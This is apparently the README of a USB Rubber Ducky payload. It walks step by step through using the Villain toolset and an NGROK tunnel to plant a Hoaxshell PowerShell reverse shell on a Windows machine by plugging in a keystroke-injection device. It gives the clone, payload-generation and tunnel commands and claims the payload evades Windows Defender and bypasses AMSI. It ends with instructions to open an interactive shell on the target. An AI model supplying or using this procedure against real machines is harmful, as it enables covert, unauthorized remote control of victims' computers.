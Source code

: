**Title: Hoaxshell via Villain Payload and NGROK Tunnel**

<p>Author: HackingMark<br>
OS: Windows<br>
Version: 1.0<br>
Requirements: DuckyScript 3.0, powershell, Linux Maschine with Villain, NGROK</p>

**What is Villain?**
#
*Villain is a Toolset to setup Payloads and Listener for Hoaxshell*
*Hoaxshell is actually undetected by Windows Defender and the Payload is optimized to bypass AMSITrigger*
*The Powershell Payload connects the target Machine back to the Hoaxshell Server, NGROK makes this Server reachable from the Internet. *
*That way you can catch your session from everywhere. Once your session is established, you can open an interactive shell.*



**How to use this Payload**

First clone Villain from Repo:
`git clone https://github.com/t3l3machus/Villain`
Then install Requirements:
`cd Villain`
`pip install -r ./requirements.txt`
Allow Villain to start:
`chmod +x ./Villain.py`
Fire it up:
`./Villain.py`
Generate a payload to get the session identifier:
`generate os=windows lhost=0.0.0.0 lport=8080`
![alt text](https://github.com/HackingMark/usbrubberducky-payloads/blob/master/payloads/library/remote_access/VillainShellviaNGROKTunnel/media/villain.png)

Establish NGROK Tunnel forwarding Traffic to our Hoaxshell Engine
`ngrok http 8080`
![alt text](https://github.com/HackingMark/usbrubberducky-payloads/blob/master/payloads/library/remote_access/VillainShellviaNGROKTunnel/media/ngrok1.png)
Leave this Window open
![alt text](https://github.com/HackingMark/usbrubberducky-payloads/blob/master/payloads/library/remote_access/VillainShellviaNGROKTunnel/media/ngrok1.png)

**Preparing the Payload:**
You need 2 Values from above: NGROK HTTPS Link and Session Identifier from Villain
Put it into the Payload then compile it to inject.bin
![alt text](https://github.com/HackingMark/usbrubberducky-payloads/blob/master/payloads/library/remote_access/VillainShellviaNGROKTunnel/media/payloadstudio)

Copy your Inject.bin to your Ducky!

<p>Plug your Ducky into a Windows target.<br>
Achieve reverse shell.<br>
   open a shell with `shell {SESSION-ID}`</p>
